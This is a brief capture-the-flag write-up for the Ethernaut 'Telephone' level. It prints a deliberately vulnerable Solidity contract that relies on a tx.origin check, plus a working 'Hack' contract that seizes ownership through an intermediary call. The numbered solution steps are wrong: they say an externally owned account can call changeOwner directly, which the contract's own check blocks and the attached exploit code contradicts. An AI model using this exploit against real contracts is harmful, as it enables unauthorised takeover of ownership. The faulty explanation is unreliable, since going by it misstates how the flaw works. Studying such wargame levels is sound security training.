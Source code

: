 # Claim ownership of the contract below to complete this level.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

# Solution
1. Get a new Instance of the contract
2. The idea is that any EOA calling the changeOwner() which is not the orignal owner(It's the externally owned account (EOA) that initiated the transaction) can change the ownership
3. In order to change the ownership, one can call the changeOwner() from their EOA and claim ownership

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract Hack {
  Telephone private immutable target;
  constructor (address _target){
    target = Telephone(_target);
  }

  function hackOwner(address _target) public  {
    target.changeOwner(_target);
  }

}
```

# Explanation
[How to Solve the Ethernaut Game's Level 4: Telephone](https://hackernoon.com/how-to-solve-the-ethernaut-games-level-4-telephone)
